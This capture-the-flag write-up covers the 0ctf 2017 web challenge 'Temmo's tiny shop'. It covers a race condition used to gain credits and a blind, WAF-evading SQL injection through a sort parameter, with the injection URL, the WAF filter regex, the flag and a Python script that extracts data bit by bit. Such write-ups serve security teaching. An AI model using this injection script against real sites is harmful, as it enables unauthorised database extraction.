



# 0ctf 2017 - Temmo's tiny shop

_!SpamAndHex - Hege_

Temmo's tiny shop is a 3-paged web application. After registering one can purchase
and sell goods from a predefined list, using a total of 4000 credits. The app also
allows us to search our purchased items by name, and order them by any field.



Notice the `!HINT!` item, costing more than our initial money. Also there is an
info page, where we get funny messages for our purchases.



## Obtaining !HINT!

Buying and seling takes a considerably long time, so assume that there is a race
condition and try to exploit it. We made it simple: opened multiple sessions for
the same user and buyed and sold items randomly. Clearly there was a race
condition, so started pushing buttons systematically, trying to sell as much goods
in parallel as possible. We quickly got enough credits to buy !HINT!, no
automation was needed at all.



_OK! Now I will give some hint: you can get flag by use `select flag from
ce63e444b0d049e9c899c9a0336b3c59`_

## Obtaining flag through SQLi

The search form uses
`http://202.120.7.197/app.php?action=search&keyword=&order=price`.
Messing around with the parameters revealed the following:

* There is a WAF
* `order` param is vulnerable to SQLi

WAF rejects queries matching `[^0-9a-zA-Z\(\)&]|()|union|user` (and a few more
keywords and possibly table names) with
`{"status":"fail","msg":"WAF seems don't like you."}`.

We managed to leak bits of the flag by manipulating the order of the results:

```
http://202.120.7.197/app.php?action=search&keyword=&order=if(price%26300,1,if((select(ascii(substr(flag,{index},1))%26{mask})from(ce63e444b0d049e9c899c9a0336b3c59)),0,2))
```

So we leaked the flag bit by bit, and there you go: `flag{r4ce_c0nditi0n_i5_excited}`.

Code for the lazy:

```
import requests
import json

# the used account needs to have a Schrodinger's cat, an ice cream and nothing else

def extract_string(char_mask_intersects):
  flag = ""
  try:
    for index in range(1, 1000):
      char = 0
      for bit in range(8):
        mask = 1 << bit
        if char_mask_intersects(index, mask):
          char += mask
      if not char:
        break
      char = chr(char)
      print("CHAR: " + char)
      flag += char
  except Exception as err:
    print(err)
  return flag

def bit_mask_in_flag(char_index, mask):
  url = (
    "http://202.120.7.197/app.php?action=search&keyword=&order=" +
    "if(price%26300,1,if((select(ascii(substr(flag,{},1))%26{})from(ce63e444b0d049e9c899c9a0336b3c59)),0,2))"
  ).format(char_index, mask)
  print("  requesting {},{}".format(char_index, mask))
  resp = requests.get(url, headers={
    "Cookie": "PHPSESSID=<populate this>"
  })
  resp = json.loads(resp.text)
  return resp["goods"][0]["price"] != "300"

print("FLAG: " + extract_string(bit_mask_in_flag))
```


